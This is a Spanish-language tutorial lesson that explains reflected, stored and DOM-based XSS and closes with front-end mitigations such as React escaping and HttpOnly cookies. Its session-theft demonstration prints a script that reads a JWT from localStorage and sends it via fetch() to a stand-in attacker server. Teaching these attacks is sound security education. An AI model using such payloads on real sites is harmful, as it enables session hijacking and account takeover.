

# XSS y Ataques del lado del Cliente (Frontend)

Mientras que la inyección SQL ataca a la Base de Datos (Backend), el **XSS (Cross-Site Scripting)** ataca a los usuarios de la aplicación (Frontend). El objetivo del XSS no es robar los datos del servidor, sino robar los datos del navegador del usuario (como sus Cookies de sesión o su Token JWT).

## 1. Entendiendo el XSS

El XSS ocurre cuando una aplicación web permite a un usuario ingresar información (por ejemplo, en un comentario de un foro) y luego el sistema muestra esa información en la pantalla de otros usuarios sin "sanitizarla" o limpiarla.



## 2. Tipos de XSS

Existen tres variantes principales que todo pentester busca:

### Reflected XSS (Reflejado)
El ataque va en la URL. El atacante te envía un enlace por correo:
`https://banco.com/buscar?q=<script>alert('Hack')</script>`
Si la página toma el parámetro `q` de la URL y lo pinta directamente en el HTML ("Resultados para: `<script>...`), tu navegador lo ejecutará al instante.

### Stored XSS (Almacenado - El más peligroso)
El script malicioso se guarda en la base de datos (Ej: En la descripción del perfil de un usuario, o en un Tweet). Cualquiera que visite el perfil será hackeado automáticamente, sin necesidad de hacer clic en enlaces raros.

### DOM-Based XSS
La vulnerabilidad ocurre completamente dentro del código JavaScript del Frontend (ej. React o Vue). Suele pasar al usar funciones peligrosas como `innerHTML` en Vanilla JS o `dangerouslySetInnerHTML` en React con datos controlados por el usuario.

## 3. Demostración Práctica (Robo de Sesión)

En lugar de un inofensivo `alert('Hack')`, un atacante real inyectaría esto en un comentario:

```html
<script>
  // Robamos el Token JWT de LocalStorage
  const token = localStorage.getItem('access_token');
  // Se lo enviamos al servidor del atacante silenciosamente en el fondo
  fetch('https://servidor-del-hacker.com/robar?jwt=' + token);
</script>
```
Cuando el Administrador del sitio entre a revisar los comentarios, su navegador ejecutará este script y el atacante obtendrá acceso total como Administrador.

## 4. Mitigación en el Frontend
* **React es seguro por defecto:** Si usas `{variable}` en React, el framework automáticamente escapa los caracteres peligrosos (`<` se convierte en `&lt;`). 
* **HttpOnly Cookies:** Nunca guardes un token de acceso crítico en `LocalStorage` ni en cookies normales. Guárdalo en una Cookie con los flags `HttpOnly` y `Secure`. Esto hace que sea físicamente imposible para el JavaScript (y por ende para el XSS) leer la cookie.

En el **Nivel Avanzado**, daremos un paso más profundo analizando los ataques de Suplantación de Solicitudes (CSRF/SSRF) y cómo engañar a los servidores.
